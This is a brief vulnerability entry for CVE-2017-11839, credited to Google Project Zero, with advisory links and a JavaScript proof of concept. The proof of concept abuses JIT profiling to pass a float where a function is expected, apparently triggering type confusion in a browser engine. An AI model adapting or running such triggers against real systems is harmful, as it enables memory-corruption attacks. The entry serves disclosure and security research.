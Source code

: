 # CVE-2017-11839

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt2(inlinee, v) {
    if (v > 0) {
        inlinee();
    } else {
        inlinee.x = 1.1;
    }
}

function opt() {
    opt2(2.3023e-320, null);
}

function main() {
    opt2(() => {}, 1);  // feed a function to the profiler

    for (let i = 0; i < 10000; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11839)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1364)
